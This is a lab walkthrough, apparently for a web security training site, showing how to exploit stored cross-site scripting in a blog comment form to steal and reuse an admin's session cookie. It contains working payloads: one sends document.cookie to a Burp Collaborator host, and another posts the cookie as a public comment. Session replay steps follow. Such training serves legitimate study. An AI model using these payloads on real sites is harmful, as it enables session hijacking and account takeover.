 # 🛡️ Lab Guide: Exploiting Cross-Site Scripting to Steal Cookies

This guide walks you through exploiting a **Cross-Site Scripting (XSS)** vulnerability in a blog comment system to steal a victim’s session cookie using **Burp Suite Professional**. You’ll use the Burp Collaborator to capture the cookie and hijack the admin’s session. Let’s dive in! 🚀

---

## 📋 Objective
Exploit an XSS vulnerability to make a victim’s browser send their session cookie to a Burp Collaborator server, then use the stolen cookie to hijack the admin’s session.

---

## 🛠️ Tools Needed
- **Burp Suite Professional** (with Burp’s browser and Collaborator)
- Basic understanding of XSS, HTTP requests, and session cookies

---

## 📝 Step-by-Step Instructions

### 1️⃣ Set Up Burp Collaborator
- Open **Burp Suite Professional** and navigate to the **Collaborator** tab.
- Click **Copy to clipboard** to copy a unique **Burp Collaborator subdomain** (e.g., `xyz.burpcollaborator.net`).

### 2️⃣ Craft the XSS Payload
- In **Burp’s browser**, navigate to the blog page (e.g., `https://YOUR-LAB-ID.web-security-academy.net/post?postId=7`) and access the comment submission form.
- Submit the following XSS payload in the comment field, replacing `BURP-COLLABORATOR-SUBDOMAIN` with your copied subdomain:
  ```html
  <script>
  fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
      method: 'POST',
      mode: 'no-cors',
      body: document.cookie
  });
  </script>
  ```
- **Note**: This script triggers a POST request containing the viewer’s session cookie to your Collaborator subdomain when the comment is viewed.

### 3️⃣ Capture the Victim’s Cookie
- Return to the **Collaborator** tab in Burp Suite and click **Poll now**.
- Wait a few seconds and check for an HTTP interaction. If none appears, poll again.
- **Observation**: The POST body contains the victim’s session cookie (e.g., `session=jtVtDHLJMRENXeL1K7YyNTizEp3jOKLf`).

### 4️⃣ Hijack the Admin Session
- In **Burp’s browser**, navigate to the blog’s main page (e.g., `https://YOUR-LAB-ID.web-security-academy.net`).
- Use **Burp Proxy** or **Repeater** to intercept a request (e.g., GET `/my-account`).
- Replace the `Cookie` header with the stolen session cookie:
  ```
  Cookie: session=jtVtDHLJMRENXeL1K7YyNTizEp3jOKLf
  ```
- Submit the request and verify that you’ve accessed the admin’s account page.
- **Observation**: The response loads the admin user’s account page, confirming successful session hijacking.

### 5️⃣ Alternative Approach (Less Subtle)
- Instead of using Burp Collaborator, you could modify the comment to post the cookie publicly:
  ```javascript
  window.addEventListener('DOMContentLoaded', function(){
      var token = document.getElementsByName('csrf')[0].value;
      var data = new FormData();
      data.append('csrf', token);
      data.append('postId', 7);
      data.append('comment', document.cookie);
      data.append('name', 'victim');
      data.append('email', 'mohamed@gmail.com');
      data.append('website', 'https://mohamed.com');
      fetch('/post/comment', {
          method: 'POST',
          mode: 'no-cors',
          body: data
      });
  });
  ```